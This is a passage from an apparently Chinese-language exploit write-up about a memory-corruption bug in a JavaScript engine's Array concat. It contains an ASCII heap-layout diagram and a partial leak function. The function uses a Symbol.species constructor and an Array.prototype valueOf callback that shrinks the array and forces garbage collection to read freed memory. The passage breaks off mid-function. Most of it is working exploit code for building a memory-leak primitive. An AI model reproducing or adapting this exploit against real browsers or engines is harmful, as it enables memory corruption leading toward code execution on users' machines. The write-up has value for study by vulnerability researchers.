```sh
        +               map (elements)             + <---------+
        +------------------------------------------+           |
        +   length          |           0          +           |
        +------------------------------------------+           |
        +               elem values                +           |
        +               ....                       +           |
        +               ....                       +           |
        +               ....                       +           |
        +------------------------------------------+           |
        +               map (Array)                +           |
        +------------------------------------------+           |
        +               prototype                  +           |
        +------------------------------------------+           |
        +               elements                   + ----------+
        +------------------------------------------+
        +   length          |           0          +
        +------------------------------------------+
        +               properties                 +
        --------------------------------------------
```

因为漏洞触发后，影响的内存位置从 elements 开始，因此后一种分配方式对这次利用是更有利的，这里提供一种利用构造函数的办法对上面 leak 的方式稍作修改：

```js
function leak_1() {
// 根据上述思路实现内存泄漏

    // Symbol.species 返回 vulnA
    class vulnArray extends Float64Array {}
    var vulnA = new vulnArray(0x1337);
    vulnA.__defineSetter__("length", function() {});
    const constru = new Function();
    constru.__defineGetter__(Symbol.species, ()=>{
        return function() {
            return vulnA;
        }
    });

    var corrupted_array = [
    // HOLEY_DOUBLE_ELEMENTS
           , 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
        0.1, 1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9,
    ];
    corrupted_array.constructor = constru;
    
    Array.prototype[0] = {
        valueOf: function() {
            corrupted_array.length = 1;
            gc();
            print("[CALLBACK]");
            delete Array.prototype[0];
            return 4.3;
        }
    };

    var res = corrupted_array.concat();
```